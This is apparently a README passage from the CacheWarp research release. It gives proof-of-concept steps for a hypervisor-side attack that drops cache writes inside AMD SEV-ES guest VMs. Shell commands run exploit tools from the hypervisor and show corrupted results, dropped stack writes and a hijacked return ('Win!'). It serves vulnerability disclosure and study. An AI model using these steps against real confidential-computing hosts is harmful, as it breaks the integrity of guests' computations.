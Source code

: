 ## PoCs

Those PoCs use blind drops. 
While the first one can be run safely, the other two could lead to crash sometimes.

### 1. Drop generic writes

```bash
# hv> stands for command executed on the hypervisor; vm> stands for command executed on the guest VM 
# Launch VM (pinned to core 7)
hv> cd AMDSEV
hv> sudo taskset -c 7 ./launch-qemu.sh -hda ./focal.qcow2 -cdrom ./ubuntu-20.04.5-desktop-amd64.iso -vnc 1 -console serial -sev-es

# Login using the password 'ubuntu'
vm> sudo su
vm> apt update && apt -y install git vim build-essential

# enable a hugepage for illustration, 225 is the target index
vm> sysctl -w vm.nr_hugepages=1

# First, you need to copy the file generic-writes-drop.c from the initial archive to the VM.
# -O2 is used so that the loop counter is stored in registers but not on stack
vm> gcc generic-writes-drop.c -O2 -o generic-writes-drop

# Run
vm> ./generic-writes-drop 0

# Before it ends, run exploit in another terminal
sudo ./blind <APIC Interval> <Number of non-zero steps> <L2 target index>
```

If it takes too long or you think the APIC_Interval is too small which only leads to zero-steps, you can just break it via `ctrl+c` and clean up the shared page (the one for synchronization) by `sudo ./blind <> <> <> 1` .

If the L2 sets index is within 1~1024 then the single specified L2 set will be dropped.

Otherwise you can use 0xAAABBB for <L2 target index> to drop L2 sets whose index are within 0xAAA ~ 0xBBB

Note that, if given a wrong index, we will not see the drops. 
Because the target will be already evicted from the cache to memory. 
``` bash
hv> sudo ./blind 70 100 225

## Expected Output (in the VM)
phys: 0x43c00000
phys: 0x43c03840
result: 39999998815 (similar, i.e., not 40000000000)
```



### 2. Drop stack memory

Set `UC_VMSA` to 0 in `cachewarp.c` for blind drops.

```bash
vm> gcc math.c -o math

# Run
vm> ./math

# Run the exploit in another terminal
# This time we iteratively drop each index
hv> sudo ./invd.sh

# You will see a value with the correct index for stackframe 
# Then rerun the exploit (with the target index) multiple times to see passing parameters, the initializtion of local variables, and the assignment of local variables can all be dropped.
```


### 3. Reuse return value 

Set `UC_VMSA` to 0 in `cachewarp.c` for blind drops.

(Drop return address of the `call` instruction) 

```bash
vm> gcc timewarp.c -o timewarp

# Run
vm> ./timewarp

# Change the INTERVAL to a smaller one for single-stepping, e.g., 39. Increase `REPEAT` for more chances to drop the `call`

# Run the exploit in another terminal
hv> sudo ./invd.sh

# Expected Output (in the VM)
"Win!"
```

